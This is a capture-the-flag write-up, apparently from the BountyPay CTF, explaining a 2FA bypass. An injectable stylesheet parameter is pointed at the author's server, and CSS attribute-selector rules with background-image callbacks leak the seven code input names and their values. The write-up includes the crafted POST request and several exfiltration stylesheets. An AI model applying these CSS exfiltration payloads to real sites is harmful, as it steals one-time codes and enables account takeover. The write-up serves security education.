

## 2FA Identity Bypass 
When we get to the 2FA validation page, we can observe that a POST request is made with a really interesting ```app_style``` parameter that seems to load a CSS stylesheet.  
Replacing the ```www.bountypay.h1ctf.com``` with mine allowed me to receive a callback with few headers telling me which scenario to go to.   
```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

app_style=https%3A%2F%2Fmyredactedvps.eu%2Fcss%2Funi_2fa_style.css
```  
  

So, the CSS stylesheet is loaded by the mobile application where the 2FA code is going to appear!  
First time for me with this attack vector, so I spent a lot of time reading up on attack scenarios about this subject.  

An attack vector is well described on Mike Gualtieri and Donut blog posts, then i understood that there is a way to leak html tag name as well as their values just by specifying CSS rules and taking advantage of CSS selectors.  
Now, I have to make automation to get the code and finally process bounty payments!  

Workflow is hosting this CSS stylesheet and get a callback to ```https://myredactedvps.eu/louzogh/exfil/%s``` with the character if one of the selectors matched.  
In order to be able to test which tag is present in the page, I first made several inputs with a selector on the name of the tag, which allowed me to confirm the input tags present in the page.

```
input[name*=A] {                                                                                                                                                                             
    background-image: url(https://myredactedvps.eu/louzogh/exfil/A/);                                                                                                                                          
}    
input[name*=B] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/B/);                                                                                                                                          
}    
input[name*=C] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/C/);                                                                                                                                          
}    
input[name*=D] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/D/);                                                                                                                                          
}    
input[name*=E] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/E/);                                                                                                                                          
} 
input[name*=F] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/F/);                                                                                                                                          
} 
...
```  

As we know, the 2FA code has a length of 7 characters.
Thanks to CSS selector and its hability to take regexp for matching, we have the possibility to test if a pattern exists in the name of the tags.  
I crafted my CSS stylesheet from a pattern wordlist, which results to : 
  
```
input[name*=key] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/key);
}
input[name*=password] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/password);
}
input[name*=secret] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/secret);
}
input[name*=2FA] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/2FA);
}
input[name*=token] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/token);
}
input[name*=code] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code);
}
input[name*=otp] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/otp);
}
input[name*=flag] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/flag);
}
input[name*=pass] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/pass);
}
input[name*=challenge] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/challenge);
}
input[name*=challenge_answer] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/challenge_answer);
}
```  

Launched the request in order to fetch my CSS stylesheet and got callback : 




In order to get full tag name, I continued bruteforcing the name :  
  
```
input[name^=code_] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_);
}
input[name^=codea] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/codea);
}

input[name^=codeb] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/codeb);
}

input[name^=codec] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/codec);
}
....
```  

Got callback with a **/louzogh/exfil/code_** path, ok let's continue :



By continuing this process, we want full name in the tag : 

```
input[name^=code_1] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_1);
}
input[name^=code_2] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_2);
}
input[name^=code_a] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_a);
}
input[name^=code_b] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_b);
}
input[name^=code_c] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_c);
}
....
```

We got 7 callbacks with : 
- /louzogh/exfil/code_1
- /louzogh/exfil/code_2
- /louzogh/exfil/code_3
- /louzogh/exfil/code_4
- /louzogh/exfil/code_5
- /louzogh/exfil/code_6
- /louzogh/exfil/code_7

**Hell Yeah ! We have the exact full name of this 7 inputs !**  
Now, we just want this 7 inputs values, i generate a CSS stylesheet with characters wordlist for each name value:  

```
input[name=code_1][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_1/%s);
}
input[name=code_2][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_2/%s);
}
input[name=code_3][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_3/%s);
}
input[name=code_4][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_4/%s);
}
input[name=code_5][value^=%s]{
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_5/%s);
}
input[name=code_6][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_6/%s);
}
input[name=code_7][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_7/%s);
}
```  

Then we got 7 callbacks again for each code input, we now have the 7 leaked letters that make up the 2FA code ! 

 

Once connected, we got the final flag !!!  

  

FLAG : ```^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$```


### References
- https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense
- https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e
- https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/05-Testing_for_CSS_Injection
- https://www.youtube.com/watch?v=YQT-wlMEoJg


